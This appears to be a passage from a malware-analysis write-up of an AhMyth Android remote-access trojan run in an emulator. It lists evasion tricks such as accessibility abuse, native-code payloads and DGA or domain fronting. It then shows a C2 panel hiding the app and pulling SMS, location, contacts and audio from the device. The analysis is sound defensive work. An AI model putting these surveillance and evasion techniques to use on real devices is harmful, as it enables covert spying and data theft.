- **Accessibility-service abuse** — instead of asking for risky permissions, the app asks once for Accessibility access and uses it to read screen contents, auto-grant permissions, and click through dialogs.
- **Native code payloads** — putting the real C2 protocol or crypto in `lib/*.so` so Java-only decompilers like JADX never see it. You then have to drop into Ghidra / IDA.
- **Domain Generation Algorithms (DGA) and domain fronting** — instead of a hardcoded IP like Ahmyth uses, the malware computes a fresh C2 domain per day, or routes traffic through legitimate CDNs.

## Dynamic Analysis

I then installed the app on android studio and then after clicking the app nothing happens and on clicking it the second time, it says App not installed and then the app icon disappears from the UI.

*Before clicking the app icon*:



*After clicking the app icon the second time*:


Since we had access to the C2 server of the attacker, I can see the app on the website running:



To confirm that our app is still running in the background, I ran the following adb command adb shell | grep ahmyth and I confirmed that the app was running in the background despite the icon disappearing from the UI:



From the C2 server I can then use send SMS to my contact list, track user location etc

I forst tried to send an SMS to the infected phone from the C2 but it returned falkse since I had not granted those permissions to my app:





After enabling SMS pemissions and triggerring the call to send an SMS, I see that the SMS method is now marked true on the C2 meaning that it has been sent from the target phone:



Upon opening the SMS app, I can see that the SMS triggered from the C2 has been sent:



The call to fetch the call logs returned an empty array since no phone calls have been made on the emulator:



To test the fine location data getting exfilytrated, I first faked my location on the androiod emulator by setting it to Belval University:



Once my fake location was set, I triggered the call to fetch the users location data which returns the longitude and latitude of Belval :)



The POC of exfiltratrating the contacts list from the users phone:



Then I tried to get the camlist which showed my emulator only had access to the front camera:



Sending the call to record audio on the targets phone from the C2 server:



And that terminated the dynamic analysis process of our app.
